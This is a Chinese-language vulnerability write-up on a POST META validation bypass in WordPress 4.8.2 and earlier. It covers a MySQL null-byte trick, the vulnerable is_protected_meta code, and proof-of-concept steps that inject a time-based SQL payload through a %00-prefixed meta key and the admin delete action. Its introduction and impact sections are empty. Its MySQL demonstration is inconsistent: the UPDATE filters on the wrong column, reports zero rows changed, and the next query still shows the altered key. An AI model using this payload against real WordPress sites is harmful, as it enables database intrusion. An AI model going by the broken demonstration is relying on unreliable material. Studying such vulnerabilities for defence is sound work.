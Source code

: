 ```yaml
---
title: "Wordpress <= 4.8.2 POST META 校验绕过漏洞"
id: zhfly3258
---
```


# Wordpress <= 4.8.2 POST META 校验绕过漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 一个MySQL的trick

1). 正常的条件查询语句

```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 | _thumbnail_id  | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec) 
```

2). 现在我们将_thumbnail_id修改成”\x00_thumbnail_id”

```
mysql> update wp_postmeta set meta_key = concat(0x00,'TESTC') where meta_value = '_thumbnail_id';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 0  Changed: 0  Warnings: 0 
```

3). 再次执行第一步的查询

```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 |  _thumbnail_id | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec) 
```

我们可以发现依然可以查询出修改后的数据。

### POST META 校验绕过

我们来看下检查meta_key的代码，文件./wp-includes/meta.php：

```
function is_protected_meta( $meta_key, $meta_type = null ) {
    $protected = ( '_' == $meta_key[0] );
    /**
     * Filters whether a meta key is protected.
     *
     * [@since](/since) 3.2.0
     *
     * [@param](/param) bool   $protected Whether the key is protected. Default false.
     * [@param](/param) string $meta_key  Meta key.
     * [@param](/param) string $meta_type Meta type.
     */
    return apply_filters( 'is_protected_meta', $protected, $meta_key, $meta_type );
} 
```

is_protected_meta函数只检查了$meta_key的第一个字符是否以_开头。我们有了2.1的MySQL trick，想要绕过meta_key的检查就显得容易多了。

### poc

```
添加自定义字段，meta_key为’_thumbnail_id’的meta_value为’55 %1$%s or sleep(10)#’
在添加自定义栏目/字段时抓包，将_thumbnail_id替换为%00_thumbnail_id
访问/wp-admin/edit.php?action=delete&_wpnonce=xxx&ids=55 %1$%s or sleep(10)#，触发SQL注入漏洞
参考 
```